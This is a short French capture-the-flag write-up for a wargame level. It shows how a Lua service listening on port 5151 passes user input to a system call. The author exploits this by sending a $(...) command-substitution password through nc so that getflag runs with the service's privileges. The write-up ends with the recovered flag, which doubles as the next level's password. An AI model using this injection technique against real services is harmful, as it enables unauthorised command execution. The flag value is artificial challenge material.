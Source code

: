 # Pré requis

aucun

## GET Flag

A la racine se trouve un fichier level11.lua.
Dans ce fichier se trouve le code execute en permanence par flag11.
La fonction de hash fait un appel systeme.
Il est donc possible d'injecter du code comme l'execution d'un script prepare avec les droits de flag11.
```
echo 'echo "$(getflag)" > /tmp/res11' > /tmp/exploit11
```

le code execute par flag11 ecoute sur le port 5151.
On peut donc lancer la commande:
```
nc 127.0.0.1 5151
```

Un mot de passe est attendu et sera transmit directement au shell.
```
$(/tmp/exploit11)
```

le resultat de la commande getflag sera ecrite dans le fichier `/tmp/res11`.

Qui nous donne : `fa6v5ateaw21peobuub8ipe6s`
# Flag

On obtient le flag:
`fa6v5ateaw21peobuub8ipe6s`
On peut se connecter sur le `level12`

```
level12
fa6v5ateaw21peobuub8ipe6s
```
